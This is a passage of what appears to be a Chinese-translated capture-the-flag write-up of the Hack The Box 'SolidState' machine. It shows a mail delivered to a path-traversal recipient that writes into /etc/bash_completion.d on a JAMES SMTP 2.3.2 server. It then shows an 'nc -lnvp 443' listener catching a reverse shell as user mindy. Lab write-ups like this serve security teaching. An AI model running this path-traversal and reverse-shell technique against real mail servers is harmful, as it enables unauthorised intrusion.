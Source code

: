     MIME-Version: 1.0
    Content-Type: text/plain; charset=us-ascii
    Content-Transfer-Encoding: 7bit
    Delivered-To: ../../../../../../../../etc/bash_completion.d@localhost
    Received: from 10.10.14.47 ([10.10.14.47])
              by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 252
              for <../../../../../../../../etc/bash_completion.d@localhost>;
              Wed, 29 Apr 2020 23:39:07 -0400 (EDT)
    Date: Wed, 29 Apr 2020 23:39:07 -0400 (EDT)
    FROM: 0xdf@10.10.14.47
    
    : No such file or directory
    -rbash: $'\r': command not found
    mindy@solidstate:~$ ls
    bin  user.txt
    

我有一个壳：

    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.51.
    Ncat: Connection from 10.10.10.51:49678.
    id
    uid=1001(mindy) gid=1001(mindy) groups=1001(mindy)
    

[查看原网页: 0xdf.gitlab.io](https://0xdf.gitlab.io/2020/04/30/htb-solidstate.html)